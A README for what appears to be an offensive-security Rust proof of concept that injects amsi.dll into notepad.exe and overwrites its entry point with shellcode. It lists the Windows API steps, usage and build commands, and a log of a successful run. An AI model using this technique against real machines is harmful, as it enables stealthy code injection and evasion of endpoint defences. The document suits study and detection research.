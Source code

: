 # Module Stomping / Module Overloading / DLL Hollowing

A basic/simple PoC in Rust

## Description

Module stomping injects a Microsoft-signed DLL (e.g amsi.dll) using a classic DLL Injection technique that uses as shown here: [Classic DLL Injection in Rust](https://github.com/memN0ps/arsenal-rs/tree/main/dll_injector_classic-rs). It will then read the `AddressOfEntryPoint` of the injected DLL from the target process and overwrite the content with shellcode.

In this example we use the following steps to perfrom a classic DLL Injection of `amsi.dll` inside `notepad.exe` and then inject our shellcode inside `amsi.dll's` entry point:

* `OpenProcess` - Open a handle to the target process with `PROCESS_ALL_ACCESS`
* `VirtualAllocEx` - Allocate memory for `amsi.dll` full path
* `WriteProcessMemory` - Write the DLL path to the target process memory
* `GetModuleHandleA` - Get a handle to `kernel32.dll`
* `GetProcAddress` - Get the address of `LoadLibraryA`
* `CreateRemoteThread` - Create a thread in the target process

We can now inject our shellcode into the target process

* Get the module (amsi.dll) base address from the target process (notepad.exe) that we just injected
* `ReadProcessMemory` - To read the the DOS and NT headers to get the `AddressOfEntryPoint` of `asmi.dll` in the target process (notepad.exe)
* `WriteProcessMemory` - To overwrite the `AddressOfEntryPoint` content with our shellcode
* `CreateRemoteThread`- Create a thread to run the contents of our shellcode inside `amsi.dll` that is inside `notepad.exe` in this example.

Microsoft Signed DLL
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> sigcheck C:\Windows\System32\amsi.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\amsi.dll:
        Verified:       Signed
        Signing date:   1:41 PM 9/11/2022
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Anti-Malware Scan Interface
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.19041.2075
        File version:   10.0.19041.2075 (WinBuild.160101.0800)
        MachineType:    64-bit
```

Process Monitor's Load Image event shows that `amsi.dll` was loaded.

![Process Monitor](./procmon.png)

Process Explorer shows that `amsi.dll` was loaded too and we can see that our shellcode was executed from the `MessageBoxA` pop-up, which was generated by `msfvenom -p windows/x64/messagebox -f rust`

![Process Monitor](./injection.png)

We can look at `notepad.exe` threads that are running, which shows that thread `9616` with the start address of `Amsi!AmsiUacScan+0xabe0`.

![Process Monitor](./thread.png)


We can inspect this memory location in more detail with `Windbg`. The memory location resolves to `Amsi!DLLMainCRTStartup` and the bytes located in this memory location contains our shellcode.

![Process Monitor](./windbg.png)

## Usage

```
.\msstomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll
```

## Example

Build

```
cargo build --release
```

Enable logging for debugging

```
$env:RUST_LOG="debug"
```

Inject amsi.dll
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> .\module_stomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll

[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Process: notepad.exe
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Path: C:\Windows\System32\amsi.dll
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Allocated Memory: 0x202d42c0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Kernel32 Address: 0x7ffa6a510000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] LoadLibraryA address: 0x7ffa6a5304f0
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] C:\Windows\System32\amsi.dll DLL Injection Complete!
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Module Base: 0x7ffa5a6d0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Remote Buffer Length: 0x148
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Bytes Read: 328
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_DOS_HEADER: 0x000002a5c4144b30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_NT_HEADERS: 0x000002a5c4144c30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] AddressOfEntryPoint: 0x7ffa5a6de820
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release>
```

## Note

A more advanced version of this can be found here https://github.com/boku7/Ninja_UUID_Runner by Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku)), which mixes up different process injection techniques for evasion.


## References and Credits

* https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
* https://thewover.github.io/Dynamic-Invoke/
* https://github.com/hasherezade/module_overloading
* https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing
* https://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/
* https://github.com/boku7/Ninja_UUID_Runner
* https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/